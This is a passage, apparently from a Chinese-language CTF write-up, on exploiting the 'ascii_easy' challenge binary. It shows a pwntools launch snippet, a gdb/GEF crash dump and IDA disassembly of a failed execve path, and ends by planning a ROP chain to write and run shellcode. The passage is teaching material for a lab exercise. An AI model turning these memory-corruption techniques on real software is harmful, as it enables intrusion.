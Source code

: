 ```python
p = gdb.debug(['./ascii_easy', payload], gdb_init)
#p = process(['./ascii_easy', payload])
p.interactive()
```

但是在运行过程中触发了异常：

```
─────────────────────────────────────────────────────────────── code:x86:32 ────
   0x55616a0f                  jmp    0x5561697c
   0x55616a14                  mov    eax, DWORD PTR [ebx-0xd4]
   0x55616a1a                  mov    ecx, DWORD PTR [esp+0x1040]
 → 0x55616a21                  mov    eax, DWORD PTR [eax]
   0x55616a23                  mov    DWORD PTR [esp], ecx
   0x55616a26                  mov    DWORD PTR [esp+0x8], eax
   0x55616a2a                  lea    eax, [esp+0x20]
   0x55616a2e                  mov    DWORD PTR [esp+0x4], eax
   0x55616a32                  call   0x556165e0
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ascii_easy", stopped, reason: SIGSEGV
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x55616a21 → mov eax, DWORD PTR [eax]
────────────────────────────────────────────────────────────────────────────────
gef➤  x/1xw 0x55700F20
0x55700f20:	0x7361682e
gef➤  x/s 0x55700F20
0x55700f20:	".hash"
gef➤  p $eax
$1 = 0x7361682e
```

在IDA看到功亏一篑就在`execve`之前，`environ_ptr_0`的地址为`0x55700F20`，保存的值为`0x55702e04`，和在程序内存中有的值不一样，就算是有该bss段的地址也没有被映射到内存中：

```
.text:55616A14
.text:55616A14 loc_55616A14:
.text:55616A14 mov     eax, ds:(environ_ptr_0 - 55700FF4h)[ebx]
.text:55616A1A mov     ecx, [esp+103Ch+arg_0]
.text:55616A21 mov     eax, [eax]
.text:55616A23 mov     [esp+103Ch+ptr], ecx
.text:55616A26 mov     [esp+103Ch+var_1034], eax
.text:55616A2A lea     eax, [esp+103Ch+var_101C]
.text:55616A2E mov     [esp+103Ch+size], eax
.text:55616A32 call    execve
.text:55616A37 mov     esi, eax
.text:55616A39 jmp     loc_5561697C
.text:55616A39 ; } // starts at 556168E0
.text:55616A39 execl endp
.text:5561
```

最后一个想法只能是构造ROP链写入shellcode最终再跳转执行了。看到有[前辈](https://blog.csdn.net/charlie_heng/article/details/79316683)是写入一个字符构造`int 0x80`，然后再`read`获取shellcode。其实细心点可以找到类似于write1、write2的gadget来一次性写入所有shellcode：
